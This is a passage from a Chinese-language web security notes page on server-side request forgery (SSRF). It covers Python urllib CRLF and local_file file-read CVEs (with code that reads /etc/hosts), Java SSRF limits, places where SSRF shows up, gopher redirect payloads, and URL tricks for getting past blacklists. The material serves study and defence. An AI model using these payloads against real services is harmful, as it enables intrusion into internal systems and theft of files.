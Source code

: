```
User-Agent: Python-urllib/2.7
```
成功注入了`\r\n`进行换行，把`:8080`当做了一个请求头的一部分。

参考：
- [CVE-2019-9740 Python urllib CRLF injection vulnerability 浅析](https://xz.aliyun.com/t/5123)


#### [CVE-2019-9948] urllib in Python 2.x through 2.7.16
这个版本的urllib支持`local_file/local-file`协议，可以读任意文件，当file协议被禁止后，可以用这个特性。
```py
import urllib
urllib.urlopen('local_file:///etc/hosts').read()
urllib.urlopen('local-file:///etc/hosts').read()
```

响应：
```
>>> urllib.urlopen('local_file:///etc/hosts').read()
'127.0.0.1\tlocalhost\n127.0.1.1\tubuntu\n192.168.170.1   cqq.com\n
```


### Java
相对于php而言,SSRF在Java中利用局限性较大,常见的类:
- HttpURLConnection
- URLConnection
- HttpClients

支持协议：
- http，https，file，ftp，mailto，jar，netdo

除非自己实现Socket，之外的应用层的协议都是不支持CRLF注入的（无法攻击redis）。weblogic的那个SSRF例外，因为它自己基于Socket实现的协议，没有对CRLF校验。


## SSRF发现&利用
portswigger详细讲述如何发现SSRF：
https://portswigger.net/web-security/ssrf

1、WEB参数点
- url，callback，img等
- HTML/PDF/img的渲染处
- xml、docx、odt等文件（XXE）
- 通过SVG文件上传，参考https://github.com/allanlw/svg-cheatsheet
- 反向代理/负载均衡处：请求头，Host，Referer，X-Forwarded-For


2、重定向
- 重定向到指定Host下（Location: http://127.0.0.1）
- 重定向更改协议（Location: gopher://127.0.0.1:11211/_data）
- 结合重定向漏洞
- 绕过重定向保护（301,302,307等）


3、绕过黑名单保护
### URL解析绕过
- http://evil$google.com，
- http://127.1.1.1:80\@127.2.2.2:80/，
- http://127.1.1.1:80\@@127.2.2.2:80/，
- 0://evil.com:80;http://google.com:80/ 
- Unicode编码
- 地址进制转换（http://0177.0.0.01，http://2130706433/， http://0x7f.0x0.0x0.0x1， http://0177.0x0.0x0.1）
- localhost变换
- IPv6地址变换
